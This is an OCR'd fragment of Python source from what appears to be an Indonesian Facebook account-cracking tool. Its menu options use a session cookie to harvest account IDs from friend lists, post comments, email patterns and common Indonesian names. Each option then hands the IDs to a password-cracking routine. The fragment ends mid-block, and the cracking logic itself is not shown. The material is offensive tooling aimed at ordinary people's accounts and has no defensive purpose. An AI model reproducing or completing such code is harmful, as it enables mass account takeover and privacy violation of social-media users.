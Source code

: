 			user = console.input(f" {H2}• {P2}masukan id atau username : ")

			if user in["Me","me"]:

				user = Dump(cookie).GetUser()

			Dump(cookie).Dump_Publik(f"https://mbasic.facebook.com/{user}?v=friends")

			Crack().atursandi()

			

		###----------[ KOMENTAR ]---------- ###

		elif menu in["3","03"]:

			prints(Panel(f"""{P2}masukan id postingan, pastikan postingan bersifat publik dan tidak private""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan id postingan : ")

			Dump(cookie).Dump_Komentar(f"https://mbasic.facebook.com/{user}")

			Crack().atursandi()

			

		###----------[ KOMENTAR ]---------- ###

		elif menu in["4","04"]:

			prints(Panel(f"""{P2}masukan nama dan format email gunakan '@' di awal contoh @gmail.com""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan nama : ")

			format = console.input(f" {H2}• {P2}masukan format : ")

			limit = console.input(f" {H2}• {P2}masukan limit : ")

			Dump(cookie).Dump_Email(user,format,limit)

			Crack().atursandi()

			

		###----------[ PENCARIAN NAMA ]---------- ###

		elif menu in["5","05"]:

			prints(Panel(f"""{P2}kamu bisa menggunakan koma (,) sebagai pemisah jika lebih dari 1 nama""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan nama : ")

			common = open("asset/nama_indonesia","r").read().splitlines()

			for idt in user.split(","):

				self.id.append(idt)

				for people in common:

					self.id.append(people+" "+idt)

			try:
